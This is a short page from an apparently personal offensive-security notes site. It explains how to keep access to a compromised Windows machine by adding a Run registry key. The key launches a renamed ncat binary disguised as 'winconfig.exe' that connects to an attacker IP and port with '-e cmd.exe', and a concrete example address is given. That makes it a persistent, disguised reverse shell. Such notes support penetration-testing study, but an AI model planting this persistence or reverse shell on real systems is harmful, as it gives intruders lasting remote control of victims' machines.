

repository: amandaguglieri/hackinglife · page: create-a-registry/index.html · generator: mkdocs

---
title: Create a Registry
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
---

# Create a Registry

Registries in the victim machine may be used to save a connection to the attacker machine.

### Regedit

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Right-Button > New > String value

We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>

We edit the registry and we add the path to the executable file and some commands  in the Value data:

“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”

For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```

### Python script that add a binary to the Registry

See [Making your binary persistent](python/making-your-binary-persistent.md)
